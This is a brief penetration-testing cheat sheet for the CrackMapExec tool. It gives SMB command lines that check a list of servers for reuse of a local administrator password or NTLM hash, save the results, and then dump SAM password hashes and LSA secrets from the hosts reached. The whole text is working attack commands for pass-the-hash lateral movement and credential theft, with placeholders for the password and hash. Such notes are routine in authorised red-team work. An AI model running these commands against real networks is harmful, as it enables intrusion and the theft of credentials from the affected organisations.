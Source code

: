 # Crackmapexec

Check for authentication access

```
crackmapexec smb server_scope.txt -u administrator -p <password> --local-auth
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth > crackmapexec-administrator-password-reuse.txt
```

Obtain passwords from the hosts

```
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth --sam
crackmapexec smb server_scope.txt -u administrator -H <hash> --local-auth --lsa
```
